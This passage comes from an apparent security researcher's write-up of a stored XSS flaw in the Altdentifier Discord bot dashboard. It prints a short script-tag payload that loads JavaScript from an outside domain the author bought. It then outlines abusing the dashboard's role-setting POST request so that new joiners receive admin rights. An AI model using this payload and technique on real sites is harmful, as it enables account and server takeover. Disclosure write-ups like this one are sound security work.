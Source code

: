 ![Screenshot]({{ site.baseurl }}/images/posts/2017/altdentifier/verifyattacker.png)

So now we have two things:
1. Stored XSS
2. We are able to perform actions on behalf of the server owner.

As with everything, there's always a problem lurking in the background. In our case, Discord would only allow `32 Characters` max as your username. While this might seem like a lot of characters, we would need open and closed `<script>` tags including the `src` attribtue in order to call our external Javascript and those script tags with the attribute took up `21 characters` alone.

With just 11 characters to spare, I purchased a domain which was five characters in length (including the extension).

With our new payload: `<script src=//7qa.pw></script>`, we were just 1 character short from the max length. Phew.

Perfect so now we're able to load external Javascript, however the question now is what can we do? As we are able to execute Javascript in the context of the application, we are able to effectively bypass the Same Origin Policy and execute requests on behalf of the user. In order to abuse this, we would need to find some functionality that is "juicy".

While browsing the `Server Dashboard` (where you are able to modify the bot's settings), I've noticed something interesting. 

You are able to set the role of the users when they first join the server:
![Screenshot]({{ site.baseurl }}/images/posts/2017/altdentifier/roles.png)


Imagine if the user who joins the server (mind you not having to verify their account), is automatically granted admin privileges? That would be wicked, so let's see if we are able to achieve that.

First, I created an Administrator role on my tester. Next, I went into Altdentifer settings and checked if I am able to assign the Administrator role to users and spoiler alert, I was:

![Screenshot]({{ site.baseurl }}/images/posts/2017/altdentifier/adminrole.png)

Awesome that's a great first hint. So in order for our external Javascript to send a request, we would need to know how a legitimate request looks like; the info it contains such as the type of request, the specific endpoint, and of course the parameters.

In order to retrieve this information, I performed a legitimate request as the Server Owner and just viewed the HTTP request:

![Screenshot]({{ site.baseurl }}/images/posts/2017/altdentifier/request.png)

Couple things to notice:

1. We see that we are sending a `POST` request to a specific endpoint which appears to contain a unique ID. If we are unable to retrieve this `ID` publically, then this vector is pretty much dead.

However I noticed this `ID` is the `ID` of our Discord Server:

![Screenshot]({{ site.baseurl }}/images/posts/2017/altdentifier/serverid.png)

Next, we can see that the request is sending form data. The specific parameter we are interested in is `in_verif_role` which is the role the user is given upon first joining the server (while they are still unverified):
